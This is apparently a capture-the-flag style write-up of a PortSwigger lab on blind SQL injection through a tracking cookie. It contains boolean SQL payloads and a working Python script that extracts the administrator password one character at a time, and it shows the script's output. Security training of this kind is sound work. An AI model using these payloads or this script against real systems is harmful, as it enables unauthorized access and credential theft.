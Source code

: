 # Blind SQL injection with conditional responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses), you'll learn: Blind SQL injection with conditional responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206022121.png)

**Tracking cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025042.png)

**Since this tracking cookie will be supplied to an SQL query, we can assume the SQL statement is:**
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'ikI75WAivHT5piK1'
```

This indeed vulnerable to SQL injection. However, **the results from the query are not returned to the user**.

**Let's try to exploit this SQL injection vulnerability!**

**To do so, I'll:**

- Change the tracking cookie value to an SQL injection payload:

```sql
ikI75WAivHT5piK1' AND '1'='1
```

**So the SQL query will become:**
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'ikI75WAivHT5piK1' AND '1'='1'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025139.png)

**When we refresh the page, we see `Welcome back!`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025157.png)

**And we change the payload to `1=2`:**
```sql
ikI75WAivHT5piK1' AND '1'='2
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025239.png)

The `Welcome back!` is missing!

**This is because `'1'='1'` is always true, and `'1'='2'` is always false.**

Now, we found a blind SQL injection. But how to exploit it?

**To exploit a blind SQL injection, we can use `SUBSTRING` function!**

**Also, for the sake of automation, I'll write a python script to send the cookie payload:**
```py
#!/usr/bin/env python3

import requests

url = 'https://0a3000450433ea41c0ad68b200e40077.web-security-academy.net/'

trackingid = 'YOUR_TRACKING_ID'
payload = f'''{trackingid}PAYLOAD_HERE'''

cookie = {
	'session': 'YOUR_SESSION_ID',
	'TrackingId': payload
}

r = requests.get(url, cookies=cookie)

if 'Welcome back!' in r.text:
	print('True')
else:
	print('False')
```

If the boolean value returns true, then we know there is a `Welcome back!` text in the web page.

**But first, let's find out which DBMS(Database Management System) is using:**
```py
payload = f'''{trackingid}' AND SUBSTR(version(),1,10) = 'PostgreSQL'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

Can confirm the DBMS is **PostgreSQL**.

**Next, let's find the table name!**

> Note: The lab background already gave us a table called `users`, and it has 2 columns called `username` and `password`.

```py
payload = f'''{trackingid}' AND (SELECT table_name FROM information_schema.tables WHERE table_name='users') = 'users'''
```

> Note: You can try to use a wordlist to brute force all possible table names.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

As we can see, it outputs `True`, which means there is a table call `users`.

**Then, we can try to confirm the `administrator` username:**
```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator')='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

Confirm `administrator` username is exist.

**Then, to find the password, we can loop through all possible characters.**

**However, let's find how many characters of `administrator` password:**
```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
False
```

As you can see, when we try to find password's length greater than 20, it returns false. **Which means the exact length of `administrator` password is 20.**

**Then, we can finally find `administrator` password!**
```py
#!/usr/bin/env python3

import requests
from string import ascii_lowercase, digits

url = 'https://0a3000450433ea41c0ad68b200e40077.web-security-academy.net/'

trackingid = 'ikI75WAivHT5piK1'

chars = ascii_lowercase + digits
position = 1
password = ''

while True:
	for character in chars:
		payload = f'''{trackingid}' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{character}'''
		cookie = {
			'session': 'YOUR_SESSION_ID',
			'TrackingId': payload
		}

		r = requests.get(url, cookies=cookie)

		if 'Welcome back!' in r.text:
			# print('True')
			password += ''.join(character)
			print(f'[+] Found password: {password}', end='\r')
			position += 1
			break
		else:
			# print('False')
			pass

	if len(password) >= 20:
		print(f'[+] administrator password: {password}')
		exit()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
[+] administrator password: arz66egk9vslbyuo8y9u
```

**We found `administrator` password! Let's login!!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206045036.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206045050.png)

We're user `administrator`!

# What we've learned:

1. Blind SQL injection with conditional responses